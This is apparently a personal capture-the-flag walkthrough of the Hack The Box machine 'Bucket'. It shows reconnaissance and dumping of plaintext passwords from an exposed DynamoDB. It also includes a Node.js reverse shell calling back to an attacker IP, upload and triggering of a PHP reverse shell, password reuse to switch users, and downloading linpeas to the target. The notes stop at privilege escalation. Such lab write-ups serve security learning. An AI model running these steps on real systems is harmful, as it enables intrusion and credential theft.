


# Hack the box - Bucket

IP: cd

## Nmap
```
┌──(kali㉿kali)-[~/htb-bucket]
└─$ nmap -A 10.10.10.212 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 14:56 EST
Nmap scan report for 10.10.10.212
Host is up (0.044s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://bucket.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.09 seconds

```

## add bucket.htb to /etc/hosts
```
┌──(kali㉿kali)-[~/htb-bucket]
└─$ cat /etc/hosts                
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.215    academy.htb
10.10.10.215    dev-staging-01.academy.htb
10.10.10.216    laboratory.htb
10.10.10.216    git.laboratory.htb
127.0.0.1       gitlab.example.com
10.10.10.206    passage.htb
10.10.10.209    doctors.htb
10.10.10.212    bucket.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## gobuster
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://bucket.htb
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://bucket.htb
[+] Threads:        10
[+] Wordlist:       SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/08 15:00:08 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/08 15:00:29 Finished
===============================================================

```

## static web page has reference to subdomain: s3.bucket.htb


s3 are AWS storage solutions, could be something similar imitating it

## add s3.bucket.htb to /etc/hosts
```
┌──(kali㉿kali)-[~/htb-bucket]
└─$ cat /etc/hosts                
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.215    academy.htb
10.10.10.215    dev-staging-01.academy.htb
10.10.10.216    laboratory.htb
10.10.10.216    git.laboratory.htb
127.0.0.1       gitlab.example.com
10.10.10.206    passage.htb
10.10.10.209    doctors.htb
10.10.10.212    bucket.htb
10.10.10.212    s3.bucket.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### now images are loaded


## gobuster s3.bucket.htb
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://s3.bucket.htb
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://s3.bucket.htb
[+] Threads:        10
[+] Wordlist:       SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/08 19:08:16 Starting gobuster
===============================================================
/health (Status: 200)
/server-status (Status: 403)
/shell (Status: 200)
===============================================================
2021/01/08 19:09:06 Finished
===============================================================

```

```
┌──(kali㉿kali)-[~]
└─$ curl http://s3.bucket.htb:80/shell -v
*   Trying 10.10.10.212:80...
* Connected to s3.bucket.htb (10.10.10.212) port 80 (#0)
> GET /shell HTTP/1.1
> Host: s3.bucket.htb
> User-Agent: curl/7.72.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Date: Sat, 09 Jan 2021 00:18:12 GMT
< Server: hypercorn-h11
< content-type: text/html; charset=utf-8
< content-length: 0
< refresh: 0; url=http://444af250749d:4566/shell/
< access-control-allow-origin: *
< access-control-allow-methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
< access-control-allow-headers: authorization,content-type,content-md5,cache-control,x-amz-content-sha256,x-amz-date,x-amz-security-token,x-amz-user-agent,x-amz-target,x-amz-acl,x-amz-version-id,x-localstack-target,x-amz-tagging
< access-control-expose-headers: x-amz-version-id
< 
* Connection #0 to host s3.bucket.htb left intact

```

## 444af250749d to /etc/hosts
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts                                
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.215    academy.htb
10.10.10.215    dev-staging-01.academy.htb
10.10.10.216    laboratory.htb
10.10.10.216    git.laboratory.htb
127.0.0.1       gitlab.example.com
10.10.10.206    passage.htb
10.10.10.209    doctors.htb
10.10.10.212    bucket.htb
10.10.10.212    s3.bucket.htb
10.10.10.212    444af250749d

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

## gobuster s3.bucket.htb/shell
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://s3.bucket.htb/shell      130 ⨯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://s3.bucket.htb/shell
[+] Threads:        10
[+] Wordlist:       SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/08 19:14:58 Starting gobuster
===============================================================
/css (Status: 200)
/index.html (Status: 200)
/img (Status: 200)
/images (Status: 200)
/lib (Status: 200)
/src (Status: 200)
===============================================================
2021/01/08 19:18:51 Finished
===============================================================

```


## gobuster s3.bucket.htb/adserver
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://s3.bucket.htb/adserver
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://s3.bucket.htb/adserver
[+] Threads:        10
[+] Wordlist:       SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/09 07:42:00 Starting gobuster
===============================================================
/index.html (Status: 200)
Progress: 3499 / 4662 (75.05%)
==============================================================
2021/01/09 07:52:32 Finished
===============================================================
```

## research s3.bucket.htb/shell
cant list tables with the web client...
lest try with aws cli
```
┌──(kali㉿kali)-[~]
└─$ curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 33.5M  100 33.5M    0     0  20.9M      0  0:00:01  0:00:01 --:--:-- 20.9M
Archive:  awscliv2.zip
   creating: aws/
   creating: aws/dist/
  inflating: aws/README.md           
  inflating: aws/install
  ...

```

```
┌──(kali㉿kali)-[~]
└─$ aws configure                                                                                           255 ⨯
AWS Access Key ID [****************k]: k
AWS Secret Access Key [****************k]: k
Default region name [k]: eu-west-1
Default output format [k]: json

```

well, our queries where working in the web client, but no ouput was being printed:
```
┌──(kali㉿kali)-[~]
└─$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb
{
    "TableNames": [
        "book",
        "table_name",
        "users"
    ]
}
```

```
┌──(kali㉿kali)-[~]
└─$ aws dynamodb describe-table --table-name users --endpoint-url http://s3.bucket.htb                      252 ⨯
{
    "Table": {
        "AttributeDefinitions": [
            {
                "AttributeName": "username",
                "AttributeType": "S"
            },
            {
                "AttributeName": "password",
                "AttributeType": "S"
            }
        ],
        "TableName": "users",
        "KeySchema": [
            {
                "AttributeName": "username",
                "KeyType": "HASH"
            },
            {
                "AttributeName": "password",
                "KeyType": "RANGE"
            }
        ],
        "TableStatus": "ACTIVE",
        "CreationDateTime": "2021-01-08T00:47:08.685000-05:00",
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": "1969-12-31T19:00:00-05:00",
            "LastDecreaseDateTime": "1969-12-31T19:00:00-05:00",
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 5,
            "WriteCapacityUnits": 5
        },
        "TableSizeBytes": 107,
        "ItemCount": 3,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/users"
    }
}
      
```

```
┌──(kali㉿kali)-[~]
└─$ aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

### users not working with ssh
```
┌──(kali㉿kali)-[~]
└─$ ssh mgmt@s3.bucket.htb          
The authenticity of host 's3.bucket.htb (10.10.10.212)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 's3.bucket.htb,10.10.10.212' (ECDSA) to the list of known hosts.
mgmt@s3.bucket.htb's password: 
Permission denied, please try again.
mgmt@s3.bucket.htb's password: 
Permission denied, please try again.
mgmt@s3.bucket.htb's password: 
mgmt@s3.bucket.htb: Permission denied (publickey,password).
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ ssh Cloudadm@s3.bucket.htb                                                                                                                                                                                                       255 ⨯
Cloudadm@s3.bucket.htb's password: 
Permission denied, please try again.
Cloudadm@s3.bucket.htb's password: 

                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ ssh cloudadm@s3.bucket.htb                                                                                                                                                                                                       130 ⨯
cloudadm@s3.bucket.htb's password: 
Permission denied, please try again.
cloudadm@s3.bucket.htb's password: 
Permission denied, please try again.
cloudadm@s3.bucket.htb's password: 

                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ ssh sysadm@s3.bucket.htb                                                                                                                                                                                                         130 ⨯
sysadm@s3.bucket.htb's password: 
Permission denied, please try again.
sysadm@s3.bucket.htb's password: 

                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ ssh Sysadm@s3.bucket.htb                                                                                                                                                                                                         130 ⨯
Sysadm@s3.bucket.htb's password: 
Permission denied, please try again.
Sysadm@s3.bucket.htb's password: 

```

### keep researching s3 bucket - RCE
```
┌──(kali㉿kali)-[~]
└─$ aws s3api list-buckets --query "Buckets[].Name"  --endpoint-url http://s3.bucket.htb                                                                                                                                             252 ⨯
[
    "adserver"
]
```

```
┌──(kali㉿kali)-[~]
└─$ aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb                         
                           PRE images/
2021-01-09 09:00:12       5344 index.html
```

```
┌──(kali㉿kali)-[~]
└─$ aws s3 ls s3://adserver/images/ --endpoint-url http://s3.bucket.htb/
2021-01-09 09:00:11      37840 bug.jpg
2021-01-09 09:00:12      51485 cloud.png
2021-01-09 09:00:12      16486 malware.png
```

http://bucket.htb/index.html is http://s3.bucket.htb/adserver/index.html

We can upload files, maybe we can upload a reverse shell script in some webserver language.
https://gist.github.com/substack/7349970

revershell.js:
```
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(1111, '10.10.14.154');
```
doesnt work

```
┌──(kali㉿kali)-[~/htb-bucket/files]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .  
```

```
┌──(kali㉿kali)-[~/htb-bucket/files]
└─$ aws s3 cp php-reverse-shell.php s3://adserver --endpoint-url http://s3.bucket.htb
upload: ./php-reverse-shell.php to s3://adserver/php-reverse-shell.php
┌──(kali㉿kali)-[~/htb-bucket/files]
└─$ aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb                      
                           PRE images/
2021-01-09 13:06:05       5344 index.html
2021-01-09 13:06:36       5494 php-reverse-shell.php
┌──(kali㉿kali)-[~/htb-bucket/files]
└─$ while true; do curl http://bucket.htb/php-reverse-shell.php &> /dev/null; done

```

```
┌──(kali㉿kali)-[~]
└─$ nc -l -p 1111
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:08:02 up 55 min,  2 users,  load average: 0.22, 0.13, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
roy      pts/0    10.10.14.178     17:40    7:22   5.26s  5.15s watch -n 0.1 ls -lah composer.json composer.lock files index.php pd4ml_demo.jar vendor
roy      pts/3    10.10.14.178     17:59    8:20   0.03s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Sep 16 12:59 .
drwxr-xr-x 21 root root 4096 Sep 23 03:17 ..
drwxr-xr-x  6 roy  roy  4096 Jan  9 17:52 roy

```

we have to jump to roy user

in /etc
```
$ grep -r roy . 2> /dev/null
grep -r roy . 2> /dev/null
./grub.d/10_linux_zfs:                    # Zsys only: let revert system without destroying snapshots
./grub.d/10_linux_zfs:                    # Non-zsys: boot temporarly on snapshots or rollback (destroying intermediate snapshots)
./grub.d/10_linux_zfs:                        title="$(gettext_printf "Revert system (all intermediate snapshots will be destroyed)")"
./group:roy:x:1000:
./group:sysadm:x:1001:roy
./passwd:roy:x:1000:1000:,,,:/home/roy:/bin/bash
./lvm/lvm.conf: # historical logical volume is automatically destroyed.
./group-:roy:x:1000:
./passwd-:roy:x:1000:1000::/home/roy:/bin/bash
./subuid:roy:100000:65536
./subgid:roy:100000:65536
./X11/rgb.txt: 65 105 225               royal blue
```
```
$ cat group
cat group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
audio:x:29:
dip:x:30:
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
systemd-timesync:x:104:
crontab:x:105:
messagebus:x:106:
input:x:107:
kvm:x:108:
render:x:109:
syslog:x:110:
tss:x:111:
uuidd:x:112:
tcpdump:x:113:
ssh:x:114:
landscape:x:115:
lxd:x:116:
systemd-coredump:x:999:
netdev:x:117:
ssl-cert:x:118:
docker:x:119:
roy:x:1000:
sysadm:x:1001:roy <---------------------------------------
```

we can reuse password from dynamodb:
```
$ su roy
su roy
Password: n2vM-<_K_Q:.Aa2

roy@bucket:/etc$ cd ~
cd ~
roy@bucket:~$ cat user.txt
cat user.txt
257f438a4363f3652b169fc9475ca3fc
```

```
$ python3 -c "import pty; pty.spawn('/bin/sh')"
$ export TERM=xterm  
```

# Privilege escalation - Linpeas
check other passwords:
```
$ su
su
Password: Management@#1@#

ls
ls
whoami
whoami
su: Authentication failure
$ bin    dev   lib    libx32    mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
$ roy
$ su
su
Password: Welcome123!

su: Authentication failure
```

```
┌──(kali㉿kali)-[~]
└─$ cd htb-bucket/files 
                                                                                                                                             
┌──(kali㉿kali)-[~/htb-bucket/files]
└─$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
--2021-01-09 13:07:24--  https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.132.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.132.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318386 (311K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh                          100%[================================================================>] 310.92K  --.-KB/s    in 0.04s   

2021-01-09 13:07:24 (7.85 MB/s) - ‘linpeas.sh’ saved [318386/318386]

                                                                                                                                             
┌──(kali㉿kali)-[~/htb-bucket/files]
└─$ ls
linpeas.sh  php-reverse-shell.php  rce.sh  reverseshell.js
                                                                                                                                             
┌──(kali㉿kali)-[~/htb-bucket/files]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

```
$ ls
ls
project  user.txt  wget-log
$ wget http://10.10.14.154:8000/linpeas.sh
wget http://10.10.14.154:8000/linpeas.sh
--2021-01-09 18:33:31--  http://10.10.14.154:8000/linpeas.sh
Connecting to 10.10.14.154:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318386 (311K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 310.92K  1.06MB/s    in 0.3s    

2021-01-09 18:33:31 (1.06 MB/s) - ‘linpeas.sh’ saved [318386/318386]

$ ls
ls
linpeas.sh  project  user.txt  wget-log
$ chmod +x linpeas.sh
chmod +x linpeas.sh
```

